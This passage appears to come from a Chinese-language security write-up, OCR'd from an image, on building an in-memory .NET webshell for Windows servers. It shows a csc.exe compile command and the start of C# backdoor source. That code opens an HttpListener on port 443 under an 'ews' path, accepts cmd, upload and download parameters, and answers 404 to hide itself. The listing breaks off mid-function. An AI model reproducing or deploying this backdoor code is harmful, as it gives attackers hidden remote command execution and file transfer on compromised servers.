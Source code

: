 ```
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\csc.exe /r:Microsoft.JScript.dll test2.cs
```

以上代码通过调用JScript执行cmd命令，简单实现了Webshell的功能

### 4.内存加载.net程序集

将以上代码按照.net程序集的格式编译成dll，再通过Webshell进行内存加载，那么就能够实现一个内存Webshell

示例代码tes3.cs的内容如下：

```
using System;
using System.Web;
using System.Diagnostics;
using System.Threading;
using System.Runtime.InteropServices;
using System.Text;
using System.IO;
using System.Security.Cryptography;
using System.Net;
using System.Reflection;
using System.Collections;
using System.Collections.Generic;
using System.DirectoryServices;

namespace EWS.TEST.BACKDOOR
{
    public class TEST
    {
        static void Main(string[] args)
        {
          new Thread(Listen).Start();
        }
        static void Listen()
        {
            try
            {
                if (!HttpListener.IsSupported)
                {
                    return;
                }
                HttpListener listener = new HttpListener();
                listener.Prefixes.Add("https://*:443/ews/test/");
                listener.Start();
                while (true)
                {
                    HttpListenerContext context = listener.GetContext();
                    HttpListenerRequest request = context.Request;
                    HttpListenerResponse response = context.Response;
                    Stream stm = null ;
                    string cmd = request.QueryString["cmd"];
                    string upload = request.QueryString["upload"];
                    string path = request.QueryString["path"];
                    string download = request.QueryString["download"];                          
                    if(string.IsNullOrEmpty(cmd) && string.IsNullOrEmpty(upload) && string.IsNullOrEmpty(download) && string.IsNullOrEmpty(path))
                    {
                        response.StatusCode = 404;
                        response.OutputStream.Close();
                    }
                    else
                    {
                        if(!string.IsNullOrEmpty(upload) && !string.IsNullOrEmpty(path))
                        {
```